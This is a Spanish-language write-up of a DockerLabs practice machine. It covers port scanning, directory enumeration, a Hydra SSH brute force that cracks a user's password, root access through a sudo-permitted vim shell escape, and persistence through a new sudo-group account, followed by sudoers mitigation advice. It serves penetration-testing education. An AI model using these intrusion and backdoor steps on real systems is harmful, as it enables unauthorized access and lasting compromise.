# Resolucion de maquina DockerLabs: trust

## Informacion general.

* Plataforma: DockerLabs

* Objetivo: Demostrar el riesgo de configuraciones inseguras en sudoers.

---

## Reconocimiento

Realizamos un escaneo sencillo con NMap identificando abiertos los puertos 80 y 22.

```bash
nmap 172.18.0.2
```



---

## Enumeracion

Despues de algunos intentos se localizo el archivo secret.php

```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,zip,tar,gz
```



Navegamos hasta el archivo secret.php identificando un baner que indica un nombre propio y una leyenda que dice "Este sitio no se puede hackear"

```bash
curl http://172.18.0.2/secret.php
```



---

## Explotación

Probamos un intento de fuerza bruta sobre el servicio SSH utilizando el usuario 'Mario' y el diccionario RockYou, con lo cual logramos detectar que la contraseña es chocolate.

```bash
ssh mario@172.18.0.2
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```



Comprobamos la identidad del usuario iniciando sesión, así como  sus privilegios actuales. A continuación se revisaron las configuraciones de sudo disponibles. Finalmente, se efectuó un análisis de archivos con permisos SUID para detectar posibles oportunidades de escalada de privilegios.

```bash
whoami
id
sudo -l
```



Identificamos que el usaurio Mario puede ejecutar VIM con elevacion de privilegios, por lo que procedemos a explotar la vulnerabilidad y verificar la elevacion.

```bash
sudo vim -c ':!/bin/sh'

whoami
id
```



---

## Persistencia

Procedemos a generar un usuario nuevo con privilegios administrativos para mantener el acceso al sistema y facilitar la ejecucion de comandos con permisos elevados.

```bash
useradd -m -s /bin/bash hacker
passwd hacker
usermod -aG sudo hacker
```



Validamos el acceso remoto por SSH.

```bash
ssh hacker@172.18.0.2
```



Verificamos los permisos de nuestro usuario para corroborar que pertenece al grupo sudo. Posteriormente confirmamos que nuestro usuario cuenta con permisos administrativos.

```bash
whoami
id
sudo hacker
```



---

## Mitigacion

En este caso vimos que se tenia una configuracion insegura de VIM, el cual ademas de ser un editor de texto, permite la ejecucion de comandos desde su propia interfaz, por lo que al ganar acceso administrativo sobre el, se lograron escalar los privilegios administrativos.

Para evitar este tipo de explotacion es recomendable seguir el principio de minimos privilegios y restringir el uso de herramientas que permitan la ejecucion de comandos.

### Ejemplo:

Eliminamos las lineas que pemitan la ejecucion de comandos con capacidad de escape como la que se encuentra a continuacion y mediante el uso de la herramienta visudo para evitar corromper algo.

```bash
sudo visudo
```

Eliminamos la siguiente linea.

```bash
mario ALL=(ALL) /usr/bin/vim
```



Aplicamos privilegios al usuario Mario mediante sudoedit, de esta manera, el usuario solamente podrra editar el archivo hosts de manera segura sin exponer el sistema.

```bash
sudo visudo
mario ALL=(ALL) NOPASSWD: sudoedit /etc/hosts
```


